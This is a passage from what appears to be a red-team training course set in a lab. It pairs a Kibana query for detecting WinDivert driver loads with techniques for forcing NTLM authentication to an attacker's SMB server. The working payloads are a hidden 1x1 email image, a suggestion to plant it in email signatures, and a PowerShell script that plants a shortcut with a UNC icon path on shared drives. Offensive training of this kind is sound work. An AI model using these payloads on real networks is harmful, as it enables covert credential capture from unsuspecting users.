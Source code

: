 One of the main indicators of this activity is the driver load event for WinDivert.  You can find driver loads in Kibana using Sysmon Event ID 6.  Even though the WinDivert driver has a valid signature, seeing a unique driver load on only one machine is an anomalous event.

```
event.module: sysmon and event.code: 6 and not file.code_signature.subject_name: "Amazon Web Services, Inc."
```

As hinted above, the PortBender CNA uses the [bdllspawn](https://www.cobaltstrike.com/aggressor-script/functions.html#bdllspawn) function to spawn a new process and inject the reflective DLL into.  By default, this is rundll32 and will be logged under Sysmon Event ID 1.

&#x20;

**EXERCISE**

Perform the attack above and find the driver load in Kibana.

#### Forcing NTLM Authentication

In the real world, it's unlikely you can just jump onto the console of a machine as a privileged user and authenticate to your malicious SMB server.  You can of course just wait for a random event to occur, or try to socially engineer a privileged user.  However, there are also lots of techniques to "force" users to unknowingly trigger NTLM authentication attempts to your endpoint.

Here are a few possibilities.

**1x1 Images in Emails**

If you have control over an inbox, you can send emails that have an invisible 1x1 image embedded in the body.  When the recipients view the email in their mail client, such as Outlook, it will attempt to download the image over the UNC path and trigger an NTLM authentication attempt.

```
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```

A sneakier means would be to modify the sender's email signature, so that even legitimate emails they send will trigger NTLM authentication from every recipient who reads them.

&#x20;

**EXERCISE**

Send an email from _bfarmer_ to _nlamb_ and view the email in Outlook on WKSTN-2.

**Windows Shortcuts**

A Windows shortcut can have multiple properties including a target, working directory and an icon.  Creating a shortcut with the icon property pointing to a UNC path will trigger an NTLM authentication attempt when it's viewed in Explorer (it doesn't even have to be clicked).

The easiest way to create a shortcut is with PowerShell.

```
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("\\dc-2\software\test.lnk")
$shortcut.IconLocation = "\\10.10.17.231\test.ico"
$shortcut.Save()
```

A good location for these is on publicly readable shares.

&#x20;
